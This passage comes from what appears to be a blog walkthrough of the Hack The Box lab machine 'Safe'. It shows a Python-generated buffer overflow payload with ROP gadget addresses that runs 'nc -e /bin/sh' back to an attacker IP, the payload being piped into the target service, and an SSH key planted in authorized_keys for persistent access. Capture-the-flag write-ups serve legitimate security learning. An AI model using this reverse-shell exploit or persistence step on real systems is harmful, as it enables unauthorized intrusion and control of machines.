    300K .......... .......... .......... .......... .......... 37% 4.55M 0s
   350K .......... .......... .......... .......... .......... 42% 2.78M 0s
   400K .......... .......... .......... .......... .......... 48% 4.13M 0s
   450K .......... .......... .......... .......... .......... 53% 5.26M 0s
   500K .......... .......... .......... .......... .......... 58% 5.75M 0s
   550K .......... .......... .......... .......... .......... 64% 4.37M 0s
   600K .......... .......... .......... .......... .......... 69% 4.64M 0s
   650K .......... .......... .......... .......... .......... 74% 4.73M 0s
   700K .......... .......... .......... .......... .......... 80% 4.79M 0s
   750K .......... .......... .......... .......... .......... 85% 8.24M 0s
   800K .......... .......... .......... .......... .......... 90% 6.02M 0s
   850K .......... .......... .......... .......... .......... 96% 5.90M 0s
   900K .......... .......... .......... .......              100% 8.67M=0.2s

2019-10-13 21:53:02 (4.31 MB/s) - ‘/home/user/nc’ saved [959800/959800]
{% endhighlight %}

<p>I then repeated the command setting it to executable with <code>chmod +x /home/user/nc</code>. With my local listener setup, I format the command to connect back to me.</p>

{% highlight python %}
python -c 'print "A"*112 + "/bin/sh|" + 
"\x06\x12\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x52\x11\x40\x00\x00\x00\x00\x00" + 
"/home/user/nc -e /bin/sh 10.10.15.xxx 1337;" + 
"C"*100' > custom13.txt
{% endhighlight %}

{% highlight shell %}
root@kali:~/Desktop/HTB/Safe# cat custom13.txt | nc 10.10.10.147 1337
 21:54:58 up  3:01,  1 user,  load average: 0.00, 0.01, 0.00
{% endhighlight %}

<p>
<img src="{{ '/assets/htb-safe/usershell1.PNG' | relative_url }}">
</p>

<p>Now that there is a limited shell, let's add the ssh keys and connect back properly.</p>

{% highlight shell %}
echo "ssh-rsa AAAAB3NzaC1yc2EA.....OR1FcXBuOItl root@kali" > authorized_keys
{% endhighlight %}

{% highlight shell %}
root@kali:~/Desktop/HTB/Safe# ssh user@10.10.10.147
Linux safe 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1 (2019-04-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Oct 13 20:03:13 2019 from 10.10.14.38
user@safe:~$ pwd
/home/user
user@safe:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
{% endhighlight %}
